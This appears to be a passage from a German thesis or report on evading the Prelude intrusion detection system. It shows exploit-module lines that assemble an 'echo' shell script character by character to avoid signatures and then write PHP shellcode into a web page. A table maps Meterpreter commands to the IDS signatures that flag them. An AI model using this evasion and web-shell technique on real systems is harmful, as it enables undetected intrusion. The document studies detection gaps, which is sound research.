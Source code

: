 \begin{lstlisting}
  sploit = "grep -I -o -i -h 'e' * | head -1 | tr -d '\n'     >  evade.sh"
  sploit = "grep -I -o -i -h 'c' * | head -1 | tr -d  '\n'    >> evade.sh"
  sploit = "grep -I -o -i -h 'h' * | head -1 | tr -d '\n'     >> evade.sh"
  sploit = "grep -I -o -i -h 'o' * | head  -1 | tr -d '\n'    >> evade.sh"
  sploit = "grep -I -o -i -h ' ' * | head -1 | tr -d '\n'     >> evade.sh"
  sploit = "grep -I -o -i -h '\\\$' * | head -1 | tr -d '\n'  >> evade.sh"
  sploit = "sh evade.sh \"<?php\n#{shellcode}\n?>\" > #{page}"
\end{lstlisting}

Die Idee ist, ein Shell-Skript mit dem Inhalt \texttt{echo \$1} zu
erzeugen. Gelingt dies, lässt sich statt \texttt{echo} das Skript benutzen, um
beliebigen Inhalt in eine Datei zu schreiben. Der Weg dieses Skript zu
erzeugen mag sicher nicht der Eleganteste sein, aber es funktioniert
und Prelude wirft nach erfolgreichem  tatsächlich kein Event
mehr, welches auf den Einbruch hindeutet.

Es ist allerdings aufgefallen, dass Prelude den PHP-Meterpreter
ziemlich gut kennt. Es bringt also nichts, den Exploit lautlos
ausführen zu können und dann mit einem PHP-Meterpreter den größten
anzunehmenden Lärm zu verursachen. Ein Großteil der
-Befehle erzeugt \glspl{glos:idmef-event} beim
\gls{glos:prelude-ids}.

{\ttfamily
\begin{longtable}{ll}
  getuid & ET ATTACK\_RESPONSE Metasploit Getuid Command Detected\\
  sysinfo & ET ATTACK\_RESPONSE Metasploit Sysinfo Command Detected\\
  pwd & ET ATTACK\_RESPONSE Metasploit Print Working Directory Command Detected\\
  ps & ET ATTACK\_RESPONSE Metasploit Process List (ps) Command Detected\\
  ls & ET ATTACK\_RESPONSE Metasploit List (ls) Command Detected\\
  getpid & ET ATTACK\_RESPONSE Metasploit File/Memory Interaction Detected\\
  ipconfig & ET ATTACK\_RESPONSE Metasploit ipconfig Command Detected\\
  route & ET ATTACK\_RESPONSE Metasploit Route Command Detected
\end{longtable}}

Das Problem ist, dass die Kommunikation des PHP-Meterpreters im
Klartext stattfindet. Es gibt bisher keine verschlüsselte Variante
\zB über HTTPS \cite{php-meterpreter-ssl}.

